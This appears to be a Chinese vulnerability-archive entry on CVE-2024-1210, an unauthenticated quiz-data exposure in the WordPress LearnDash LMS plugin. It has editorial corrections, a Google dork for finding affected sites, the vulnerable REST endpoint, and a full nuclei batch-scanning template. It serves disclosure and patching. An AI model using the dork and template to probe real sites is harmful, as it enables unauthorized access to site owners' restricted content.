


# CVE-2024-1210

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：WordPress LearnDash LMS
- 文献类型：API信息泄露复现与模板
- 版本、权限及部署边界：<=4.10.1，模板称4.10.2修复；匿名/wp-json/ldlms/v1/sfwd-quiz，需存在受限测验
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 与1208的question接口和4.10.3修复不同，作为相关漏洞而非重复删除
2. GET200和quizzes等字段不能单独证明应受限内容被越权，需匿名对照和测验权限配置
3. WordPress插件厂商泛化为基金会应校正；模板verified:true仅原作者字段
4. 已列研究者GitHub、WPScan、NVD和固定修复版本，正文建议却只写最新，宜统一

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://wpscan.com/vulnerability/f4b12179-3112-465a-97e1-314721f7fe3d/>
- 原文参考链接（未重新核验）：<https://github.com/karlemilnikka/CVE-2024-1208-and-CVE-2024-1210>
- 原文参考链接（未重新核验）：<https://nvd.nist.gov/vuln/detail/CVE-2024-1210>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-03-26 00:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
WordPress Plugin LearnDash LMS 敏感信息未授权访问漏洞  
  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
WordPress Plugin LearnDash LMS <= 4.10.1  
  
  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。该平台支持在PHP和MySQL的服务器上架设个人博客网站。WordPress plugin是一个应用插件。  
  
WordPress Plugin LearnDash LMS 4.10.1及之前版本存在安全漏洞，该漏洞源于容易通过API暴露敏感信息，未经身份验证的攻击者可能获得测验的访问权限。  
  
  
04  
  
—  
  
google搜索语句  
  
  
```
inurl:"/wp-content/plugins/sfwd-lms"
```  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
路径  
```
/wp-json/ldlms/v1/sfwd-quiz
```  
  
get请求可以使用浏览器访问  
  
  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei-templates 已发布poc，内容如下  
```
id: CVE-2024-1210

info:
  name: LearnDash LMS < 4.10.2 - Sensitive Information Exposure
  author: ritikchaddha
  severity: medium
  description: |
    The LearnDash LMS plugin for WordPress is vulnerable to Sensitive Information Exposure in all versions up to, and including, 4.10.1 via API. This makes it possible for unauthenticated attackers to obtain access to quizzes.
  remediation: Fixed in 4.10.2
  reference:
    - https://wpscan.com/vulnerability/f4b12179-3112-465a-97e1-314721f7fe3d/
    - https://github.com/karlemilnikka/CVE-2024-1208-and-CVE-2024-1210
    - https://nvd.nist.gov/vuln/detail/CVE-2024-1210
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
    cvss-score: 5.3
    cve-id: CVE-2024-1210
    cpe: cpe:2.3:a:learndash:learndash:*:*:*:*:*:wordpress:*:*
  metadata:
    verified: true
    max-request: 1
    vendor: learndash
    product: learndash
    framework: wordpress
    publicwww-query: "/wp-content/plugins/sfwd-lms"
    googledork-query: inurl:"/wp-content/plugins/sfwd-lms"
  tags: wpscan,cve,cve2024,wp,wp-plugin,wordpress,exposure,learndash

http:
  - method: GET
    path:
      - "{{BaseURL}}/wp-json/ldlms/v1/sfwd-quiz"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '"id":'
          - '"quiz_materials":'
          - 'quizzes'
        condition: and

      - type: word
        part: header
        words:
          - 'application/json'

      - type: status
        status:
          - 200
# digest: 490a00463044022079f0e028ee4fd33b5e897e0550a707be3dbe291e8085b9d175297108e9c8858102202a9344a25a6ec5fa1fc025e439a8887f6cc9c9ac50b6c199f1fa27e4cc948855:922c64590222798bb761d5b6d8e72950
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
